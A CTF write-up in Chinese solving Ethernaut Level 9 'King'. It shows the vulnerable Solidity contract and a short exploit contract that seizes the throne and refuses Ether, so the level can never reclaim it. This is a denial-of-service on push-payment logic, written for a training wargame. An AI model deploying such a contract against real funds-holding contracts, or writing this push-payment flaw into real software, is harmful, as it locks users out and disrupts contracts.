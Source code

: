 # Ethernaut CTF Writeup

## Level 9 King

> 題目: https://ethernaut.openzeppelin.com/level/0x473c8dF98DFd41304Bff2c5945B9f73e30f5c013

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}

```

過關條件: 

- 當你提交實例給關卡時，關卡會重新取回他的王位所有權，目標阻止合約重獲王位

解法：

- 自己布署一個合約來取得王位，該合約不要提供任何接收 Ether 的功能，關卡便無法取回王位

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exploit {
    King target = King(payable(0x91417dead2e54085b444aDC065bfA50284868e3a));
    
    constructor() payable {
        address(target).call{value: target.prize()}("");
    }
}
```